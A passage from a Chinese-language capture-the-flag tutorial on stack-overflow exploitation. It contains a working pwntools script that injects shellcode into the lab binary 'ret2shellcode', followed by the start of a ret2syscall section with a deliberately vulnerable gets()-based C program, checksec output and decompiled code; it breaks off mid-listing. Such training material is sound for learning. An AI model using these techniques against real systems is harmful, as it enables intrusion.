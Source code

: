 编写攻击脚本
```python
#!coding:utf-8
from pwn import *

p=process('./ret2shellcode')
buf2=0x0804A080
shellcode=asm(shellcraft.i386.sh())#pwntools生成的32位shellcode

payload=shellcode+"a"*(112-len(shellcode))+p32(buf2) #shellcode+padding + ret_addr
p.sendline(payload)

p.interactive()
```

## ret2syscall
ret2syscall，即控制程序执行系统调用，获取 shell。

在用户空间和内核空间之间，有一个叫做Syscall(系统调用)的中间层，是连接用户态和内核态的桥梁。这样即提高了内核的安全型，也便于移植，只需实现同一套接口即可。Linux系统，用户空间通过向内核空间发出Syscall，产生软中断，从而让程序陷入内核态，执行相应的操作。

应用程序调用系统调用的过程：
- 把系统调用号存入 eax
- 把函数参数存入其它通用寄存器
- 触发 0x80 号中断（ int 0x80 ）

[题目地址](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall)
```c
#include <stdio.h>
#include <stdlib.h>

char *shell = "/bin/sh";

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);
    
    char buf[100];

    printf("This time, no system() and NO SHELLCODE!!!\n");
    printf("What do you plan to do?\n");
    gets(buf);

    return 0;
}
```
查看保护机制，只开启了NX
```bash
gnq@gnq:~/test$ checksec rop 
[*] '/home/gnq/test/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
用IDA查看程序。gets存在栈溢出，但是程序没有后门函数可以直接调用，NX保护也导致shellcode无法使用。
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
```